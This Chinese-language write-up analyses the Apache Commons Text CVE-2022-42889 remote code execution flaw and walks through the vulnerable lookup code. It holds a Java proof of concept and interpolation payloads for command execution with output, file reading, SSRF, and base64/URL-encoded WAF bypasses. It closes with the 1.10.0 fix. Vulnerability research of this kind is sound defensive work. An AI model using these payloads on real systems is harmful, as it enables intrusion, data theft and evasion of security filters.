









## 漏洞信息

https://lists.apache.org/thread/n2bd4vdsgkqh2tm14l1wyc3jyol7s1om

## 漏洞复现

添加依赖

```xml
  <!-- https://mvnrepository.com/artifact/org.apache.commons/commons-text -->
  <dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-text</artifactId>
    <version>1.9</version>
  </dependency>
```

复现代码

```java
import org.apache.commons.text.StringSubstitutor;

public class CVE_2022_42889 {
    public static void main(String[] args) {
        StringSubstitutor interpolator = StringSubstitutor.createInterpolator();
        interpolator.replace("${script:js:java.lang.Runtime.getRuntime().exec(\"calc\")}");
    }
}
```



## 漏洞分析

漏洞中提到漏洞关键点在于`org.apache.commons.text.lookup.StringLookup`

先跟一下poc流程：



跟进`substitute`方法



跟进`resolveVariable`方法



这里跟进lookup方法，其为一个接口



poc使用的是`InterpolatorStringLookup`



这里获取`:`前的内容赋给 prefix(此处会进行小写处理)，后半部分赋给 name。

接着在 stringLookupMap 查看是否存在对应的键名，如果存在则会调用 `StringLookup#lookup `方法

这些键名在`DefaultStringLookup`中



跟进`ScriptStringLookup#lookup`



这里调用了`scriptEngine.eval`执行`:`后面的语句，`scriptEngine`由`:`前的字符串决定，也就是`javascript`，所以不难理解payload

```
${script:js:java.lang.Runtime.getRuntime().exec("calc")}
```

### 补充

利用方式：

**script回显**

```java
${script:js:new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.ProcessBuilder("whoami").start().getInputStream(), "GBK")).readLine()} // 只能读取一行

${script:js:new java.util.Scanner(new java.lang.ProcessBuilder("ipconfig").start().getInputStream(), "GBK").useDelimiter("xzxzxz").next()}
```

**ResourceBundle读取配置文件**

```
${resourcebundle:application:user.name}
```

**file读文件**

```
${file:utf-8:d:/test.txt}
```

**url读文件/ssrf**

```
${url:utf-8:http://127.0.0.1:8000/}

${url:utf-8:file:///d:/test.txt}
```

绕过方式：

urlDecoder 和 base64Decoder，利用编码 + 嵌套的方式来绕过某些 waf 对 prefix 的检测

```
嵌套递归解析，嵌套script标签等

${base64Decoder:JHtzY3JpcHQ6anM6amF2YS5sYW5nLlJ1bnRpbWUuZ2V0UnVudGltZSgpLmV4ZWMoImNhbGMiKX0=}

${urlDecoder:%24%7b%73%63%72%69%70%74%3a%6a%73%3a%6a%61%76%61%2e%6c%61%6e%67%2e%52%75%6e%74%69%6d%65%2e%67%65%74%52%75%6e%74%69%6d%65%28%29%2e%65%78%65%63%28%22%63%61%6c%63%22%29%7d}
```

## 漏洞防御

在新版本Apache Commons Text 1.10.0中

看到：

` org.apache.commons.text.lookup.StringLookupFactory.DefaultStringLookupsHolder#createDefaultStringLookups()`



创建map时未加载危险函数


参考：

https://www.yuque.com/yuqueyonghukcxcby/wwdc80/fl2zc5#jO2pi

https://bingbingzi.cn/post/apace-commons-text-rcecve-2022-42889/

https://y4tacker.github.io/2022/10/29/year/2022/10/%E6%B5%85%E6%9E%90Apache-Commons-Text-CVE-2022-42889/#%E6%B5%85%E6%9E%90Apache-Commons-Text-CVE-2022-42889